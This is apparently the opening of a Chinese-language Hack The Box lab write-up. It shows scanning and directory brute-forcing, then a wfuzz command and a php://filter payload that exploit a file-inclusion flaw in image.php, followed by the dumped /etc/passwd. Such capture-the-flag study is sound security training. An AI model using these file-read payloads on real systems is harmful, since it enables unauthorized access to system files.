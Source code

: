 [https://app.hackthebox.com/machines/421](https://app.hackthebox.com/machines/421)

nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281626817.png)

---

一个登录框,测试了一下貌似不存在sql注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281627612.png)

目录爆破结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281627521.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281640566.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281642866.png)

存在`images/upload`目录,但是没有爆破出有价值的文件

注意到`image.php`没有直接跳转到`login.php`,推测该文件可能可以接受参数去读取`images`文件夹中的文件

`wfuzz -c -w ~/SecTools/SecLists-2021.4/Discovery/Web-Content/burp-parameter-names.txt -u "http://10.10.11.135/image.php?FUZZ=/etc/passwd"`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281648625.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281648934.png)

传入`img=index.php`时,跳转到`login.php`,推测这里为文件包含

`php://filter/read=convert.base64-encode/resource=xxx`

`/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```
